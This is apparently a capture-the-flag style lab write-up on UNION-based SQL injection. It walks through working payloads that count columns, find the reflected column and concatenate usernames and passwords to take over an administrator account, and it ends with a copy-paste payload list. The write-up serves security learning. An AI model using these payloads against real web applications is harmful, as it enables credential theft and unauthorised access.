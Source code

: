 # SQL injection UNION attack, retrieving multiple values in a single column

A concise write-up using **my original steps** (verbatim) with small, accurate notes.  
**Note:** Payloads are shown exactly as I used them (no URL-encoding).

---

## 🥅 Goal
**Get the administrator password** by leveraging UNION-based SQLi and string concatenation.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: get the administrator password**

2. **we know there are "username,password" columns in "users" table**

3. **find vulnerable url parameter:**
   ```
   /filter?category='
   ```
   → status **500**

4. **fix the error:**
   ```
   /filter?category='+--+
   ```

5. **try wild guess (failed):**
   ```
   /filter?category='+UNION+SELECT+username,password+FROM+users+--+
   ```
   → **500**

6. **enumerate columns (works):**
   ```
   '+UNION+SELECT+null,null+FROM+users+--+
   ```
   → **200**

7. **test reflection (fails in first col):**
   ```
   '+UNION+SELECT+'a',null+FROM+users+--+
   ```
   → **500**

8. **test reflection (works in second col):**
   ```
   '+UNION+SELECT+null,'a'+FROM+users+--+
   ```
   → **200**

9. **extract both values in one column using concatenation:**

10. **concatenate username and password:**
    ```
    '+UNION+SELECT+null,username||password+FROM+users+--+
    ```
    → **200**

11. **add a space between them for clarity:**
    ```
    '+UNION+SELECT+null,username||'+'||password+FROM+users+--+
    ```

12. **Log in as the administrator.**

13. **Lab solved!**

---

## 🧠 Minimal Additions (Why / Tips)

- **UNION rules:** The injected `UNION SELECT` must match the **number of columns** (and compatible types) of the original query. Step 6 confirms **2 columns**.
- **Which column is reflected?** Steps 7–8 show the **second column** is rendered, so place your text payload there.
- **Concatenation operator differences:**  
  - **Oracle / PostgreSQL:** `||` (used above).  
  - **MySQL:** use `CONCAT(username,' ',password)` instead of `username||' '||password`.  
  - **SQL Server:** use `username + ' ' + password`.
- **Delimiters:** If needed, add markers instead of a space (e.g., `username||':'||password`) for unambiguous parsing.
- **Comments:** `--` comments to end-of-line; `--+` includes a trailing space (often required).

---

## 🔧 Payloads I Used (Copy/Paste – raw, unencoded)

```text
/filter?category='
/filter?category='+--+
/filter?category='+UNION+SELECT+username,password+FROM+users+--+
'+UNION+SELECT+null,null+FROM+users+--+
'+UNION+SELECT+'a',null+FROM+users+--+
'+UNION+SELECT+null,'a'+FROM+users+--+
'+UNION+SELECT+null,username||password+FROM+users+--+
'+UNION+SELECT+null,username||'+'||password+FROM+users+--+
```

---

## 🏁 Result
- Confirmed column count and reflection position, concatenated `username` and `password`, and used the output to **log in as administrator**. **Lab Solved. ✅**
